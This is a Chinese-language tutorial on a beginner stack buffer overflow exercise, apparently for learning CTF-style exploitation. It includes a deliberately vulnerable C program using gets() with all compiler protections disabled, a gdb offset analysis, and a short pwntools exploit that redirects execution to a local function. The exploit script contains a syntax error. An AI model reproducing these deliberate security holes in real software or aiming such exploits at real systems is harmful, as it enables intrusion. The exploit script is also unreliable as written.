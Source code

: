 ```yaml
---
title: stack_test
updated: 2022-10-19 01:06:36Z
created: 2022-09-06 07:10:42Z
---
```


栈溢出简单题目

```c
#include <stdio.h>
#include <string.h>

//compile options --to disable all protect
//gcc -no-pie -fno-stack-protector -z execstack stack_test.c -o stack_test

void pwn() 
{ 
    puts("Stack Overflow!"); 
}

void vulnerable() 
{
    char s[12];
    gets(s);
    puts(s);
    return;
}

int main(int argc, char **argv) 
{
    vulnerable();
    return 0;
}
```

以下为编译选项（关闭所有保护）：

```zsh
gcc -no-pie -fno-stack-protector -z execstack stack_test.c -o stack_test
```

```zsh
└─# checksec --file=./stack_test                      
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   41 Symbols        No    0               1  ./stack_test
```

分析源码，main函数调用vulnerable函数，vulnerable函数功能为获取用户输入并打印

可见输入函数并未对输入进行长度限制，可以考虑在输入点进行溢出操作，从而修改返回地址，让其指向溢出数据中的一段指令(shellcode)

接下来使用gdb分析编译出的elf文件

**我们的目的是对vulnerable函数中的gets输入点进行数据溢出，从而修改其return返回值为pwn()函数，达到执行pwn函数的目的**

**首先找到vulnerable函数中gets获取的变量s的段内偏移地址：**

**<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/690a194ff230444007887547e4514e77.png" alt="690a194ff230444007887547e4514e77.png" width="1023" height="689" class="jop-noMdConv">**

如上图所示，gets函数下一行即为s变量的段内偏移地址为\[rbp-0xc\]，0xc转化为十进制即为12,所以s变量的偏移长度为12,即距离段基地址长度为12

**由于该elf文件为64位，在堆栈上占8个字节，32位则是4个字节**

故而溢出数据的长度为12+8（其中12是s变量到段基地址的长度，8是为了覆盖段基地址），总的20字节可以使得数据溢出刚好与返回地址持平，再加上一段想要执行的地址，便可以使得返回地址返回为目标地址

**接下来查看pwn函数的地址**

**<img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/3226470517ad7646f109bb58750be083.png" alt="3226470517ad7646f109bb58750be083.png" width="1024" height="268" class="jop-noMdConv">**

由上图可以看到，pwn函数的起始地址为0x401136

* * *

**PS:**

**一般操作系统都是小端序，而通讯协议是大端序,如高位是0x88,低位是0x66**

**大端序：**

**就是我们日常使用的，高位字节在前，低位字节在后，如0x8866**

**小端序：**

**刚好与大端序相反，低位字节在前，高位字节在后，如0x6688**

* * *

所以，exp代码如下：

```python
from pwn import *

key=p32(0x401136)//自行编译elf文件的pwn函数的地址可能不同

conn  = process("./stack_test")

conn.sendline(bytes('a',encoding='utf8')*20+key)

print (conn.recvall())
```

执行exp代码可得到：

![3028e549394d0e8ad05b606d6adc1a27.png](https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/3028e549394d0e8ad05b606d6adc1a27.png)